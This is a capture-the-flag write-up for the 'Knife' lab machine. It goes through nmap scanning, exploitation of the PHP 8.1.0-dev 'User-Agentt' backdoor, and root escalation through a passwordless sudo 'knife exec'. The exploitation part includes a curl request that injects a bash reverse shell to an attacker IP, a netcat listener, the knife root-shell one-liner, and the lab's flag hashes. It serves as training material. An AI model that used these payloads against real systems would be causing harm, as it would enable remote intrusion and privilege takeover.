





# Knife (Easy · Linux)

**Author:** Ph4n3s
**Date:** 2026-10-19
**IP:** 10.129.78.40
**Difficulty:** Easy / Linux

---

## 1. Enumeration

### 1.1 Ping

First we run a `ping -c 10.129.78.40`, which returns the following:

```
64 bytes from 10.129.78.40: icmp_seq=1 ttl=63 time=53.9 ms
```

From the TTL we know it is a Linux machine.

### 1.2 Port and service enumeration

We will use the following nmap to find the open ports:

```
nmap -p- -open -T4 --min-rate 5000 10.129.78.40 -oN ~/HTB_machines/Knife/ports
```

The response we got was:

```
22/tcp open  ssh
80/tcp open  http
```

Both SSH and HTTP, so with the next command we dig deeper into the services running on those ports:

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 10.129.78.40 -oN ~/HTB_machines/Knife/targeted
```

The response was:

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We notice two things: first, on port 80 we have an Apache 2.4.41 service, a system that is vulnerable and has been outdated since 2019. As for OpenSSH, it is an old Ubuntu server version, unpatched since 2021, but not vulnerable per se, so we will focus on the HTTP.

Now with the following scan we look for actually interesting vulnerabilities on those ports with those specific versions, running:

```
nmap -p 80,22 --script vuln -T4 --min-rate 5000 10.129.78.40 -oN ~/HTB_machines/Knife/vulns
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|_  /icons/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 32.85 seconds
```

We can see a few things: first, nothing at all on the SSH port, but there is a folder on the web, `/icons/`, of potential interest, so let's take a look and, if not, use a fuzzing tool to enumerate subdomains. At first it looks like the page of a medical center.


Before fuzzing, let's enumerate the web's header with a curl:

```
HTTP/1.1 200 OK
Date: Mon, 19 Oct 2026 16:02:52 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

The most important thing is this: `X-Powered-By: PHP/8.1.0-dev`, meaning it is written in PHP.

That version has a vulnerability that is a backdoor. It is not a PHP injection per se, but a ready-made backdoor that already has exploits written for it, for example this one: *PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution* (`php/webapps/49933.py`).



---

## 2. Exploitation

For the exploitation itself we run the script already preinstalled on Kali Linux `49933.py` ([github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)):

```
sudo python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
```

It asks me for the web URL, which would be `http://10.129.78.40:80/`, and it opens the reverse shell directly.



### 2.1 Privilege escalation and post-exploitation

Already on the machine, if we want to access the `/home` directory for the flag or root, we can't, but the way to escalate privileges would be to see exactly what we can run as superuser. In this case we use `sudo -l` to check:

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife is a documented tool that gives us, with a single command, direct access to a shell as root. The command would be the following:

```
sudo knife exec -E "exec \"/bin/sh\""
```



After that we navigate to `/home/james` and `cat` `user.txt`, getting the following output: `0b5d83ce1592f91e60061603b260b1f8`. Then to `/root` and `cat` `root.txt`, which gives the flag: `c886b9a3411dc5c171acf5f86d12e2bb`.



---

## Important and additional learning notes

*(This is where the machine ends; this is in case you're curious and want to learn a bit more.)*

Even though I used an escalation with an exploit, there is another simple way to do this process; the exploit itself is fine, as it is a way to automate the exploitation, but there is a way to improve it and do the reverse shell manually.

If we study the vulnerability in depth, through a specific phrase when writing a request with curl, we can make the server execute our text as code, and that way inject a manual reverse shell. In fact, we are not injecting anything; it should be clear that a reverse shell is redirecting the input and output of a victim machine to a port on ours where we are listening with netcat.

The way to inject a manual shell would be with the following command:

```
curl -s http://10.129.78.40/ -H 'User-Agentt: zerodiumsystem("bash -c '"'"'bash -i >& /dev/tcp/10.10.16.120/4444 0>&1'"'"'");'
```

Why like this? And why would we investigate how to do it the following way? Mainly because of an exploit failure — the goal is to `cat` the exploit and read how it works. If we read it, we see it simply makes a header request to the web with certain parameters that, if we edit, we can trigger ourselves:

```php
if (str_starts_with($useragent, "zerodium")) {
    system(substr($useragent, 8)); // runs the rest
}
```

The command we launch: with `-s` we tell it not to show loading bars, we specify the machine's IP, and with `-H` it builds a special header that activates the bash backdoor:

```
bash -c 'bash -i >& /dev/tcp/10.10.16.120/4444 0>&1'
```

That is what actually runs, opening an interactive console (`bash -i`) and redirecting the input/output stream (`0>&1`) to our machine (`10.10.16.120`).

On the website [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) we can find how to open different shells in different languages, useful in this exercise for the PHP case.

Then we would listen with `nc -lnvp 4444` on port 4444 (listen, numeric, verbose and port) so that the stream goes over that channel.

---

## Quick summary

**What the machine was:** an Apache web server with PHP 8.1.0-dev that had a backdoor maliciously introduced into PHP's official source code.

**Enumeration:** `nmap` → ports 22 (SSH) and 80 (HTTP) → `curl -I` → you discover `X-Powered-By: PHP/8.1.0-dev` → that version = known backdoor.

**Exploitation:** the backdoor reads the `User-Agentt` header and executes its content as PHP. That is abused to send a reverse shell: curl with malicious header → PHP runs bash → bash redirects its input/output to your `nc`. Your machine listens with `nc -lvnp 4444` and receives the connection → shell as `james`.

**Privilege escalation:** `sudo -l` → james can run `/usr/bin/knife` as root without a password → `sudo knife exec -E "exec \"/bin/sh\""` → shell as root.

**Key concept learned:** a reverse shell is not code you program, it is redirecting bash's input/output channels over a TCP connection toward your machine. The same concept as Tomcat, but without needing to upload a file — the HTTP request was both the payload and the execution at once.

---



**Flags:**
- `user.txt` → `0b5d83ce1592f91e60061603b260b1f8`
- `root.txt` → `c886b9a3411dc5c171acf5f86d12e2bb`
